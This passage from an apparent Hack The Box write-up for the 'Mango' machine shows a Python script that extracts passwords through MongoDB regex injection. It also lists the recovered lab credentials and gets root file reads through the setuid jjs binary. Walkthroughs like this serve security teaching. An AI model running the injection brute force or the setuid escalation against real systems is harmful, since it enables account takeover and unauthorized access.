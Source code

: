         for i in string.ascii_letters + string.digits + "~>[]!@#$%^()@_{}":
            payload = flag + i
            post_data = {'username': 'admin', 
    		     'password[$regex]': payload + ".*"}
              
    	r = requests.post(url, data=post_data, allow_redirects=False)
            if r.status_code == 302:
                print(payload)
                restart = True
                flag = payload

So How this works? This python script will bruteforce the password for the user by one by one character. If the character is correct it will give `302 Found`.  And for all other characters, it gives back the status code `200`.  So each time `302 redirect` is seen, it will restart the loop and started brute-forcing the second character.

By doing so I got the password for `admin`<br/>
![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%207.png)

``admin:t9KcS3>!0B#2``

Let's try the same script with `mango` as a user. (Just a Guess)<br/>
![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%208.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%208.png)

And I got the password.
``mango:h3mXK8RhU~f{]f5H``

## Getting a shell as mango:

Logged in as `mango` in ssh but it seems like it doesn't have the User flag. But `admin` has the flag.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%209.png)

## Getting shell as admin:

I tried login with `ssh` using the password we got already but didn't worked, so I `su` from user `mango` and it worked!

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%2010.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%2010.png)

## Privilege Escalation:

I uploaded my Linux Enumeration Script and found some `SETUID` Binaries.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%2011.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/Untitled%2011.png)

`run-mailcap` seems like it didn't work. I searched for `jjs` in [GTFObins](https://gtfobins.github.io/gtfobins/jjs/),

We can get the root flag quickly by using the `FIle Read` method.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/esgeg.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-mango/esgeg.png)
